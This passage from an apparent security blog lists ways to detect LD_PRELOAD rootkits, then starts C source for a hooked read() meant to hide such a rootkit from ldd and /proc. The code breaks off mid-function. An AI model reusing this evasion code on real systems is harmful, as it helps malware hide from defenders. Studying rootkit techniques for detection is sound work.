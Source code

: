 - `/proc/[pid]/map_files/`: Shows memory-mapped files.

And of course, what you can't miss is checking `/etc/ld.so.preload`

- `/etc/ld.so.preload`: File containing a separate list of shared objects to be loaded before the program.

![imgur](https://i.imgur.com/LR8Abjs.png)

You can also check this using `lsof`.

- `lsof`: Lists files opened by processes and used with -p <PID>, it shows the shared libraries loaded by a specific process.

![imgur](https://i.imgur.com/eIMTdVs.png)

And these are the main ways to detect a shared object, you saw how easy it is, right? And most of the LD_PRELOAD rootkits that I see, do not have a feature to hide from it, and as I am a very curious person, I decided to learn some ways on how to hide it and it is in the next session that we will learn.

## Hiding an LD_PRELOAD Rootkit from ldd and /proc

I think that for people who know me, they know that I really like hooking the `read`, and this case will be no different.

Here is a simple code in C:

```
#define _GNU_SOURCE
#include <dlfcn.h>
#include <string.h>
#include <unistd.h>
#include <errno.h>
#include <stdlib.h>

ssize_t read(int fd, void *buf, size_t count) {
    static ssize_t (*real_read)(int, void *, size_t) = NULL;

    if (!real_read) {
        real_read = dlsym(RTLD_NEXT, "read");
        if (!real_read) {
            errno = ENOSYS;
            return -1;
        }
    }

    ssize_t result = real_read(fd, buf, count);

    if (result > 0) {
        char *start = (char *)buf;
        char *end = start + result;
        char *current = start;

        size_t new_buf_size = result;
        char *new_buf = (char *)malloc(new_buf_size);
        if (!new_buf) {
            errno = ENOMEM;
            return -1;
        }

        size_t new_buf_pos = 0;

        while (current < end) {
            char *line_start = current;
            char *line_end = memchr(current, '\n', end - current);
```